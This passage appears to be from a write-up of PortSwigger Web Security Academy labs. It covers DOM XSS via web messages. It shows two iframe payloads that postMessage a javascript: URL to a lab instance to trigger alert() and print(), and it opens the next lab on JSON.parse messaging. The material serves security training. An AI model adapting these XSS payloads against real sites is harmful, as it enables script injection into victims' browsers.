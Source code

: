 We can execute Javascript code with javascript:alert(1). As there are already nested quotes and double quotes we can use the character “`” to create an alert message with the previous url, so the payload wil still have “https:”:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/3.png)

If we change the payload to print the page:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/4.png)


# DOM XSS using web messages and JSON.parse

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

